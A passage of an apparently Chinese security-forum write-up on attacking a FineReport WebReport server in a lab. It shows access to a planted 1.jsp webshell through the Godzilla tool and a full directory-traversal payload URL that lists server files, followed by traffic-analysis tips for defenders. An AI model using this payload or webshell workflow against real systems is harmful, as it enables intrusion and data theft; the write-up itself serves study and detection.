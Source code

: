 ![image.png](https://shs3.b.qianxin.com/attack_forum/2023/07/attach-bb41a61fd4e114f5dc85957144f41f7000723bee.png)

### 连接webshell

访问<http://192.168.6.140:8080/WebReport/1.jsp>，回显空白页面，确认文件存在

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/07/attach-98d38673bfd21adcefeed93f9167347605afced4.png)  
用Godzilla工具成功连接webshell

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/07/attach-f3263f0fde6b784d1881db7a15a8004c80541b85.png)

3. 目录遍历漏洞
---------

构造payload：`http://192.168.6.140:8080/WebReport/ReportServer?op=fs_remote_design&cmd=design_list_file&file_path=../WebReport/WEB-INF/tmp&currentUserName=admin&currentUserId=1&isWebReport=true`，成功读取`../WebReport/WEB-INF/tmp`目录的所有文件

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/07/attach-acdf406d9c599620d2ed55bc4a6f77adfb618677.png)

流量侧排查小tips
==========

正确登录页面
------

访问`http://192.168.6.140:8080/WebReport/ReportServer`，是个部署页面

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/07/attach-c7c7b9fb2ac38d4053bd4364554cadade17d8ac5.png)  
点击数据决策系统，跳转到`http://192.168.6.140:8080/WebReport/ReportServer?op=fs_load&cmd=fs_signin&_=1672748615453`登录页面

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/07/attach-721ddf78b7f39fa5c550d9b1ce994075afe16819.png)

因此输入完账密后，是通过`http://192.168.6.140:8080/WebReport/ReportServer?op=fs_load&cmd=login`进行POST数据跳转，但并非是真实登录页面，真实登录页面应该是`http://192.168.6.140:8080/WebReport/ReportServer?op=fs_load&cmd=fs_signin&_=1672748615453`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/07/attach-a03cb44517486a6f4cbeb9d64c6234c1d289d13e.png)

插件自动加载流量
--------

点击管理系统-插件管理板块，将会自动跳转至`http://192.168.6.140:8080/WebReport/ReportServer?op=plugin&cmd=war`等路径，将自动加载`&cmd=war/plugin_url_prefix/init`等路径，并非人工手动加载

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/07/attach-18e33b75b85bcf7e003bfdee1a9022a7cd29de28.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/07/attach-3fe3b6a5c756dbef5a42f88326b872382522225e.png)

参考链接
====

<https://baijiahao.baidu.com/s?id=1652854781223869222>

<https://baijiahao.baidu.com/s?id=1652903285090947235>

<https://mp.weixin.qq.com/s/VBy6tgUCkoYEliOkSeOnRA>

<https://mp.weixin.qq.com/s/ae8A8PGJCtr6uS11dRpzcw>